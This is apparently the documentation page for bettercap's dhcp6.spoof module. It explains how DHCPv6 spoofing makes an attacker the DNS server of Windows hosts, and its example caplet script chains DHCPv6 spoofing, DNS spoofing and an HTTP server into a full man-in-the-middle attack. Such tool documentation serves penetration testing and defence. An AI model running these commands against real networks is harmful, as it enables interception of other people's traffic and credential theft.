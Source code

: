 ```yaml
---
title: "dhcp6.spoof"
date: 2019-02-25T13:02:36+01:00
draft: false
weight: 3
---
```


This module's purpose is attacking Microsoft Windows hosts by replying to DHCPv6 messages and providing the target with a link-local 
IPv6 address and setting the attacker host as default DNS server (as described [here](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)).

{{% notice info %}}
This module must be used together with [dns.spoof](https://github.com/bettercap/bettercap/wiki/dns.spoof) module in order to be effective.
{{% /notice %}}

### Commands

#### `dhcp6.spoof on`

Start the DHCPv6 spoofer in the background.
#### `dhcp6.spoof off`

Stop the DHCPv6 spoofer in the background.

### Parameters

| parameter | default | description |
|-----------|---------|-------------|
| `dhcp6.spoof.domains` | `microsoft.com, goole.com, facebook.com, apple.com, twitter.com` | Comma separated values of domain names to spoof. | 

### Examples

The following is the [mitm6.cap](https://github.com/bettercap/caplets/blob/master/mitm6.cap) caplet performing the full DHCPv6 attack versus a Windows 10 machine which is booting:

```sh
# let's spoof Microsoft and Google ^_^
set dns.spoof.domains microsoft.com, google.com
set dhcp6.spoof.domains microsoft.com, google.com

# every http request to the spoofed hosts will come to us
# let's give em some contents
set http.server.path /var/www/something

# serve files
http.server on
# redirect DNS request by spoofing DHCPv6 packets
dhcp6.spoof on
# send spoofed DNS replies ^_^
dns.spoof on

# set a custom prompt for ipv6
set $ {by}{fw}{cidr} {fb}> {env.iface.ipv6} {reset} {bold}» {reset}
# clear the events buffer and the screen
events.clear
clear
```
